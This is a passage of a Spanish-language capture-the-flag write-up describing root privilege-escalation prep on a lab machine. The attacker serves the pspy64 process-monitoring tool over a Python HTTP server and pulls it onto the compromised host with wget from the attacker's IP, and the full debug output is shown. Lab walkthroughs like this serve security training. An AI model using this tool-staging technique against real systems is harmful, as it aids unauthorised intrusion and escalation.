 - Para obtener acceso como usuario root, procedemos a compartir pspy64 desde la siguiente url: <https://github.com/DominicBreuker/pspy> para listar los binarios que podemos llegar a manipular:

~~~go
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.9.1.216 - - [20/Apr/2022 22:47:58] "GET / HTTP/1.1" 200 -
~~~

~~~go
ollie@hackerdog:/tmp$ wget -d http://10.9.1.216/pspy64
wget -d http://10.9.1.216/pspy64
DEBUG output created by Wget 1.20.3 on linux-gnu.

Reading HSTS entries from /home/ollie/.wget-hsts
URI encoding = ‘UTF-8’
Converted file name 'pspy64' (UTF-8) -> 'pspy64' (UTF-8)
--2022-04-21 03:50:10--  http://10.9.1.216/pspy64
Connecting to 10.9.1.216:80... connected.
Created socket 3.
Releasing 0x0000562d91e4eea0 (new refcount 0).
Deleting unused 0x0000562d91e4eea0.

---request begin---
GET /pspy64 HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.9.1.216
Connection: Keep-Alive

---request end---
HTTP request sent, awaiting response... 
---response begin---
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.9.12
Date: Thu, 21 Apr 2022 03:50:10 GMT
Content-type: application/octet-stream
Content-Length: 3078592
Last-Modified: Thu, 21 Apr 2022 03:42:42 GMT

---response end---
200 OK
Registered socket 3 for persistent reuse.
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.94M  1.44MB/s    in 2.0s    

2022-04-21 03:50:12 (1.44 MB/s) - ‘pspy64’ saved [3078592/3078592]

ollie@hackerdog:/tmp$ ls
ls
10.9.1.216  f  pspy64
~~~
